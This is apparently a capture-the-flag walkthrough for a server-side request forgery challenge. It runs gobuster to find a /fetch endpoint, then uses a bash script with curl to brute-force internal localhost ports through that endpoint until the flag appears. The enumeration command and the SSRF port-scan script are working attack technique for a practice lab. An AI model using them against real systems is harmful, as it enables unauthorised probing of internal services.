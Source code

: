 # SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
![landing-page](./images/landing_page.png)  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

![fetch](./images/fetch.png)  

Go to that url and inspect the error message:  
![no_url_error](./images/no_url_error.png)  

Try to submit the url parameter:  
![invalid_url_error](./images/invalid_url_error.png)  


Submit an url with the correct schema:  
![correct_url](./images/correct_url.png)  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
![no_connection](./images/no_connection.png)  

Unfortunately no luck, you need to create an automation to scan all the ports, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get the flag!  
![flag](./images/flag.png)  







